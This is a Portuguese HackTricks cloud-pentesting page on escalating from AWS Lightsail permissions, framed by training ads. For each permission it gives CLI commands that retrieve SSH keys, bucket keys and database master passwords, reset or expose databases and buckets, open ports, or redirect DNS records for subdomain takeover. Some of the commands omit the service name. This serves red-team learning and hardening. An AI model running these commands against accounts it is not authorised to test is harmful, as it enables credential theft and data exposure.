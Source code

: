 # AWS - Lightsail Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Lightsail

Para mais informações sobre Lightsail, confira:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
É importante notar que o Lightsail **não usa funções IAM pertencentes ao usuário**, mas a uma conta gerenciada pela AWS, então você não pode abusar deste serviço para privesc. No entanto, **dados sensíveis** como código, chaves de API e informações de banco de dados podem ser encontrados neste serviço.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Esta permissão permitirá que você obtenha as chaves SSH para acessar as instâncias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:GetInstanceAccessDetails`

Esta permissão permitirá que você gere chaves SSH para acessar as instâncias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:CreateBucketAccessKey`

Esta permissão permitirá que você obtenha uma chave para acessar o bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontre informações sensíveis dentro do bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Esta permissão permitirá que você obtenha as credenciais para acessar o banco de dados:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontre informações sensíveis dentro do banco de dados.

### `lightsail:UpdateRelationalDatabase`

Esta permissão permitirá que você altere a senha para acessar o banco de dados:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se o banco de dados não for público, você também pode torná-lo público com essas permissões com

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:OpenInstancePublicPorts`

Esta permissão permite abrir portas para a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:PutInstancePublicPorts`

Esta permissão permite abrir portas para a Internet. Observe que a chamada fechará qualquer porta aberta que não esteja especificada nela.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:SetResourceAccessForBucket`

Esta permissão permite dar a uma instância acesso a um bucket sem credenciais extras.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impacto Potencial:** Acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateBucket`

Com esta permissão, um atacante poderia conceder ao seu próprio conta AWS acesso de leitura sobre buckets ou até mesmo tornar os buckets públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateContainerService`

Com essas permissões, um atacante poderia conceder acesso a ECRs privados do serviço de contêineres.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obter informações sensíveis do ECR privado

### `lightsail:CreateDomainEntry`

Um atacante com esta permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (tomada de subdomínio), ou elaborar um registro SPF que lhe permita falsificar e-mails do domínio, ou até mesmo definir o domínio principal para seu próprio endereço IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Tomada de controle de um domínio

### `lightsail:UpdateDomainEntry`

Um atacante com esta permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (tomada de controle de subdomínio), ou elaborar um registro SPF que lhe permita falsificar e-mails do domínio, ou até mesmo definir o domínio principal para seu próprio endereço IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Tomar controle de um domínio

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

